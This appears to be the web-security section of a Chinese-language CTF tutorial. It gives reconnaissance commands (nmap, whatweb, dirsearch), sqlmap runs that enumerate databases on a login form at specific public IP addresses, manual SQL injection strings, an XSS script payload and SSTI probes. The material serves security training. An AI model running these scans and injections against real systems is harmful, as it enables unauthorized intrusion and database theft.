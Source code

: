 
# 逐题型实战教程（含命令与示例）

<a id="1-web-安全"></a>
## 1️⃣ Web 安全

### 🔹 信息收集
```bash
nmap -sC -sV -p- target.com
whatweb http://target.com
dirsearch -u http://target.com -e php,html,txt -t 40
```

```bash
nmap -p 80,443 101.201.73.188
python3 dirsearch.py -u http://101.201.73.188 -e html,txt -t 10
```

### 🔹 SQL 注入
```bash
sqlmap -u "http://target.com/item?id=1" --batch --random-agent
```
手动测试：
```
' OR '1'='1
' UNION SELECT NULL,NULL--
```

```
sqlmap -u "http://59.110.221.188:8080/admin/login" \
  --data="username=admin&password=whatever" \
  -p username \
  --batch \
  --dbs
```
```
sqlmap -u "http://59.110.221.188:8080/admin/login" \
  --data="username=admin&password=whatever" \
  -p username \
  --batch \
  -D information_schema --tables --time-sec=1 --threads 20
```


### 🔹 XSS
```html
"><script>alert(1)</script>
```

### 🔹 SSTI
```
{{7*7}}
{% 7*7 %}
```
